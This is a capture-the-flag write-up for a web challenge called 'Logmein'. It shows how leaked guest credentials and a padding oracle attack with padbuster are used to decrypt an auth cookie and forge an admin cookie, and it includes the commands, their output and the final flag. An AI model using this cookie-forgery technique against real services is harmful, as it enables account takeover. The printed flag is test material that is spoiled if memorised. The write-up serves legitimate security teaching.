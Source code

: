 # Logmein

## Question Text

Pardon the shitty website design

`http://web.chal.gryphonctf.com:18703`

*Creator - PotatoDrug*

## Setup Guide
1. Run `./build.sh`

## Solution
View source at the index page and one of the comments contain `guest:guest` which is a valid account.

After logging in as guest we see the message 'I think the admin user has a more interesting profile', hinting that we need to become the admin user.

We are given a auth cookie which is encrypted upon logging in. If we alter with the cookie value we are given an error page, we can try using this to do a padding oracle attack.

We can see that padbuster successfully decrypted the encrypted value and the plaintext is user=guest.
```bash
➜ VAL="0kDV0sd/qVcniaQrNV1O9DjAljLexxYhHASgoRj3DH8="
➜ padbuster http://172.16.180.1:3000/profile $VAL 16 -cookies "auth=$VAL"
-------------------------------------------------------
** Finished ***

[+] Decrypted value (ASCII): user=guest

[+] Decrypted value (HEX): 757365723D6775657374060606060606

[+] Decrypted value (Base64): dXNlcj1ndWVzdAYGBgYGBg==
```

Now our we just have to change that to `user=admin`
```bash
-------------------------------------------------------
➜ padbuster http://172.16.180.1:3000/profile $VAL 16 -cookies "auth=$VAL" -plaintext 'user=admin'
-------------------------------------------------------
** Finished ***

[+] Encrypted value is: 52U10BQGKRepGlfUJwshHQAAAAAAAAAAAAAAAAAAAAA%3D
-------------------------------------------------------
```

We can get the flag if we set the encrypted value of `user=admin` as our cookie value.
```bash
➜ curl -s http://127.0.0.1:3000/profile --cookie "auth=52U10BQGKRepGlfUJwshHQAAAAAAAAAAAAAAAAAAAAA%3D" | grep -o 'GCTF{.*}'
GCTF{l34K1NG_1nF0Rm4710n_1n_Un3xP3C73d_w4YZ}
```

### Flag
`GCTF{l34K1NG_1nF0Rm4710n_1n_Un3xP3C73d_w4YZ}`

## Recommended Reads
* https://robertheaton.com/2013/07/29/padding-oracle-attack/
* https://www.youtube.com/watch?v=aH4DENMN_O4

